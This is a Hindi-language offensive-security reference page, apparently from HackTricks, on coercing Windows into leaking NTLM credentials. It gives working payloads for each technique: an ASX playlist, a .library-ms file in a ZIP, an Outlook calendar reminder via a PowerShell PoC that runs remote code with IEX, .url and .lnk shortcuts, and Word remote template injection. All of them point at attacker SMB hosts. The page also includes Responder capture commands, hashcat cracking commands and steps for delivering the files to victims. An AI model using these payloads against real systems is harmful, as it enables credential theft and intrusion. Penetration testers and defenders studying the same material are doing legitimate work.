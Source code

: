 # NTLM creds चुराने के स्थान

{{#include ../../banners/hacktricks-training.md}}

**इन बेहतरीन विचारों को जरूर देखें: [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) — ऑनलाइन एक microsoft word फ़ाइल डाउनलोड करने से लेकर ntlm leaks स्रोत तक: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md और [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**


### Windows Media Player प्लेलिस्ट (.ASX/.WAX)

यदि आप लक्ष्य को आपका नियंत्रित Windows Media Player प्लेलिस्ट खोलने या प्रीव्यू करने के लिए प्रेरित कर सकें, तो आप एंट्री को एक UNC path पर पॉइंट करके Net‑NTLMv2 leak कर सकते हैं। WMP संदर्भित मीडिया को SMB के माध्यम से प्राप्त करने का प्रयास करेगा और स्वतः प्रमाणीकृत होगा।

उदाहरण payload:
```xml
<asx version="3.0">
<title>Leak</title>
<entry>
<title></title>
<ref href="file://ATTACKER_IP\\share\\track.mp3" />
</entry>
</asx>
```
संग्रह और cracking प्रवाह:
```bash
# Capture the authentication
sudo Responder -I <iface>

# Crack the captured NetNTLMv2
hashcat hashes.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
### ZIP-embedded .library-ms NTLM leak (CVE-2025-24071/24055)

Windows Explorer ZIP archive के भीतर से सीधे खोले जाने पर .library-ms फ़ाइलों को असुरक्षित तरीके से संभालता है। अगर लाइब्रेरी परिभाषा किसी remote UNC path (उदा., \\attacker\share) की ओर इशारा करती है, तो ZIP के अंदर .library-ms को केवल ब्राउज़/लॉन्च करने से Explorer उस UNC को सूचीबद्ध करता है और हमलावर को NTLM authentication भेज देता है। इससे NetNTLMv2 प्राप्त होता है जिसे ऑफ़लाइन क्रैक किया जा सकता है या संभावित रूप से relay किया जा सकता है।

Minimal .library-ms pointing to an attacker UNC
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<version>6</version>
<name>Company Documents</name>
<isLibraryPinned>false</isLibraryPinned>
<iconReference>shell32.dll,-235</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<simpleLocation>
<url>\\10.10.14.2\share</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
Operational steps
- ऊपर दिए XML के साथ .library-ms फ़ाइल बनाएं (अपना IP/hostname सेट करें)।
- इसे ZIP करें (on Windows: Send to → Compressed (zipped) folder) और ZIP को टार्गेट पर भेजें।
- एक NTLM capture listener चलाएँ और इंतज़ार करें कि पीड़ित ZIP के अंदर से .library-ms खोले।

### Outlook कैलेंडर रिमाइंडर साउंड पाथ (CVE-2023-23397) – zero‑click Net‑NTLMv2 leak

Microsoft Outlook for Windows कैलेंडर आइटम्स में extended MAPI property PidLidReminderFileParameter को प्रोसेस करता था। यदि वह property किसी UNC path (e.g., \\attacker\share\alert.wav) की ओर इशारा करती थी, तो reminder के फायर होते ही Outlook SMB share से संपर्क कर लेता था, और बिना किसी क्लिक के उपयोगकर्ता का Net‑NTLMv2 leak हो जाता था। इसे 14 मार्च 2023 को patched किया गया था, फिर भी यह legacy/untouched fleets और historical incident response के लिए अभी भी अत्यंत प्रासंगिक है।

Quick exploitation with PowerShell (Outlook COM):
```powershell
# Run on a host with Outlook installed and a configured mailbox
IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/api0cradle/CVE-2023-23397-POC-Powershell/main/CVE-2023-23397.ps1)
Send-CalendarNTLMLeak -recipient user@example.com -remotefilepath "\\10.10.14.2\share\alert.wav" -meetingsubject "Update" -meetingbody "Please accept"
# Variants supported by the PoC include \\host@80\file.wav and \\host@SSL@443\file.wav
```
Listener पक्ष:
```bash
sudo responder -I eth0  # or impacket-smbserver to observe connections
```
नोट्स
- एक victim को केवल तब Outlook for Windows चल रहा होना चाहिए जब reminder ट्रिगर हो।
- यह leak Net‑NTLMv2 देता है जो offline cracking या relay के लिए उपयुक्त है (pass‑the‑hash नहीं)।

### .LNK/.URL icon-based zero‑click NTLM leak (CVE‑2025‑50154 – bypass of CVE‑2025‑24054)

Windows Explorer शॉर्टकट आइकन स्वचालित रूप से रेंडर करता है। हाल के शोध से पता चला कि Microsoft के April 2025 patch के बाद भी UNC‑icon shortcuts के लिए, shortcut target को एक UNC path पर host करके और icon को local रखकर बिना किसी क्लिक के NTLM authentication trigger करना संभव था (patch bypass को CVE‑2025‑50154 असाइन किया गया)। सिर्फ़ फ़ोल्डर देखने भर से Explorer remote target से metadata प्राप्त करता है, और NTLM attacker SMB server को भेज देता है।

Minimal Internet Shortcut payload (.url):
```ini
[InternetShortcut]
URL=http://intranet
IconFile=\\10.10.14.2\share\icon.ico
IconIndex=0
```
PowerShell के माध्यम से प्रोग्राम शॉर्टकट payload (.lnk):
```powershell
$lnk = "$env:USERPROFILE\Desktop\lab.lnk"
$w = New-Object -ComObject WScript.Shell
$sc = $w.CreateShortcut($lnk)
$sc.TargetPath = "\\10.10.14.2\share\payload.exe"  # remote UNC target
$sc.IconLocation = "C:\\Windows\\System32\\SHELL32.dll" # local icon to bypass UNC-icon checks
$sc.Save()
```
डिलीवरी के विचार
- शॉर्टकट को ZIP में रखें और पीड़ित से उसे ब्राउज़ करवाएँ।
- शॉर्टकट को उस writable share पर रखें जिसे पीड़ित खोलेगा।
- उसी फ़ोल्डर में अन्य lure files के साथ मिलाएँ ताकि Explorer आइटम का preview दिखाए।


### Office remote template injection (.docx/.dotm) to coerce NTLM

Office documents एक external template को reference कर सकते हैं। यदि आप attached template को एक UNC path पर सेट करते हैं, तो दस्तावेज़ खोलने पर SMB पर authenticate होगा।

न्यूनतम DOCX relationship बदलाव (inside word/):

1) word/settings.xml को संपादित करें और attached template reference जोड़ें:
```xml
<w:attachedTemplate r:id="rId1337" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"/>
```
2) word/_rels/settings.xml.rels संपादित करें और rId1337 को अपने UNC की ओर निर्देशित करें:
```xml
<Relationship Id="rId1337" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="\\\\10.10.14.2\\share\\template.dotm" TargetMode="External" xmlns="http://schemas.openxmlformats.org/package/2006/relationships"/>
```
3) .docx में पुनः पैक करके डिलीवर करें। अपना SMB capture listener चलाएँ और इसे खोलने का इंतज़ार करें।

For post-capture ideas on relaying or abusing NTLM, check:

{{#ref}}
README.md
{{#endref}}


## References
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)
- [HTB: Media — WMP NTLM leak → NTFS junction to webroot RCE → FullPowers + GodPotato to SYSTEM](https://0xdf.gitlab.io/2025/09/04/htb-media.html)
- [Morphisec – 5 NTLM vulnerabilities: Unpatched privilege escalation threats in Microsoft](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/)
- [MSRC – Microsoft mitigates Outlook EoP (CVE‑2023‑23397) and explains the NTLM leak via PidLidReminderFileParameter](https://www.microsoft.com/en-us/msrc/blog/2023/03/microsoft-mitigates-outlook-elevation-of-privilege-vulnerability/)
- [Cymulate – Zero‑click, one NTLM: Microsoft security patch bypass (CVE‑2025‑50154)](https://cymulate.com/blog/zero-click-one-ntlm-microsoft-security-patch-bypass-cve-2025-50154/)


{{#include ../../banners/hacktricks-training.md}}
